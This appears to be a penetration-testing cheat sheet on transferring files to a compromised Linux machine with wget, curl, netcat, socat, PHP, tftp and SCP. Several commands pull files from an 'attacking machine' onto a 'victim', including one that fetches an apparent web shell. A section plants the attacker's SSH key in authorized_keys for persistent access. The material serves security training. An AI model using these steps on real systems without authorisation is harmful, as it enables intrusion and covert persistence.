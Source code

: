 # Transferring Files on Linux

## Set Up a Simple Python Webserver

For the examples using `curl`  and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```
python -m SimpleHTTPServer 9999
```

## Wget

You can download files using `wget` like this:

```
wget 192.168.1.102:9999/file.txt
```

## Curl

```
curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```



## Socat

Server receiving file:

```
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
```

Server sending file:

```
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat
```



## With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can  do this trick:

```
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`.  
Then you need to do two things.

1. Create a new keypair

You do that with:

```
ssh-keygen -t rsa -C "your_email@example.com"
```

then you enter a name for the key.

Enter file in which to save the key \(/root/.ssh/id\_rsa\): nameOfMyKey  
Enter passphrase \(empty for no passphrase\):   
Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

1. Add your public key to authorized\_keys.

Now you copy the content of `nameOfMyKey_pub`.   
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized\_keys. Like this

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

1. Log in.

Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP

Now we can copy files to a machine using `scp`

```
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

### SSHFS 

```
# Install sshfs on Debian based distros:
sudo apt-get update && sudo apt-get install sshfs
# Syntax for sshfs:
sshfs [user@]host:[directory] mountpoint [options]
# Example command where the sshfsExample directory is created locally and any files transferred to it will show up in the /home/user directory on the remote ssh server:
mkdir sshfsExample
sshfs user@192.168.0.0:/home/user sshfsExample
# unmount the directory by using the following command:
umount sshfsExample
```

